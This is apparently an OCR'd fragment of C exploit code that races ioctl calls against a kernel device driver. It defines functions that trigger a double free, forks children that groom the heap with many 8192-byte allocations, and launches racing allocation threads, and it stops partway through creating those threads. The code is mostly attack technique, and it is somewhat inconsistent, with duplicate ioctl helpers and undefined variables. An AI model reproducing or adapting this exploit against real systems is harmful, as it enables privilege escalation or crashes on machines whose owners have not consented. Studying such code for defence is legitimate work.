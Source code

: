 ```c
}

int add_same_buf(int fd)
{
	return ioctl(fd, 0xa2, NULL);
}

int do_double_free(int fd)
{
	return ioctl(fd, 0xa3, NULL);
}

int do_release(int fd)
{
	return ioctl(fd, 0xa3, NULL);
}

#define	BUF_PER_FD	0x1000
#define	THREADS_RACE	0x10
int buf_fd[THREADS_RACE];
int addr[BUF_PER_FD * THREADS_RACE];
void *thread_alloc_buf(void *arg)
{
	int idx = (int)arg;
	int i = 0;
	int start = idx * BUF_PER_FD;
	int end = (idx + 1) * BUF_PER_FD;
	for (int i = start; i < end; i++) {
		addr[i] = alloc_8192_buf(buf_fd[idx]);
	}
	return (void *)0;
}

int main(int argc, char *argv[])
{
	int err;

	int i = 0;
	while (1) {
		for (i = 0; i < THREADS_RACE; i++)
			buf_fd[i] = open_target_file();

		int pid;
		if ((pid = fork()) < 0) {
			perror("fork");
		} else if (pid == 0) {
			for (i = 0; i < fd_cnt; i++)
				fd[i] = open_target_file();

			for (i = 0; i < fd_cnt; i++)
				for (int j = 0; j < alloc_times; j++)
					alloc_8192_buf(fd[i]);
			err = add_same_buf(fd[0]);
			fprintf(stderr, "double free at: %x\n", err);
			do_double_free(fd[0]);
			return 0;
		}
		int pid_status;
		pthread_t thread[THREADS_RACE];
		for (i = 0; i < THREADS_RACE; i++) {
			err = pthread_create(&thread[i], NULL,
						thread_alloc_buf,
						(void *)i);
```